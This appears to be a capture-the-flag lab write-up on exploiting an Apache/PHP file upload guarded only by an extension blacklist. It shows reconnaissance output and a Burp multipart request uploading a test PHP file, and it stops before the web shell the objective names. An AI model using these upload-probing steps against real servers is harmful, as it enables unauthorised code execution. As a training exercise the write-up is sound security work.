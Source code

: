 ### Bypassing PHPx Blacklists

#### Lab Environment

**Vulnerable Apache V**

Apache is probably the most popular web server on the World Wide Web with millions of deployments! In this series of challenges, we hope to explore how attackers can exploit webapps running on Apache  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The target server has not been properly secured against <u>arbitrary file upload</u> and <u>execution vulnerability</u>. <u>The administrator has used a blacklisting approach but forgotten to add other executable file extensions to this list</u>.
This example also proves why <u>blacklisting is not considered a good security measure</u>.

**Objective**: Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/`:
```
https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache, Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[172.104.136.144], JQuery, PHP[5.5.9-1ubuntu4.25], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25] 📌
```

`echo '<?php echo "test" ?>' > ./test.php`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3258681235955572122686784594
Content-Length: 252
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3258681235955572122686784594
Content-Disposition: form-data; name="fileToUpload"; filename="test.php" 📌
Content-Type: application/x-php 📌

<?php echo "test" ?>

-----------------------------3258681235955572122686784594--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:21:13 GMT
Server: Apache
Vary: Accept-Encoding
```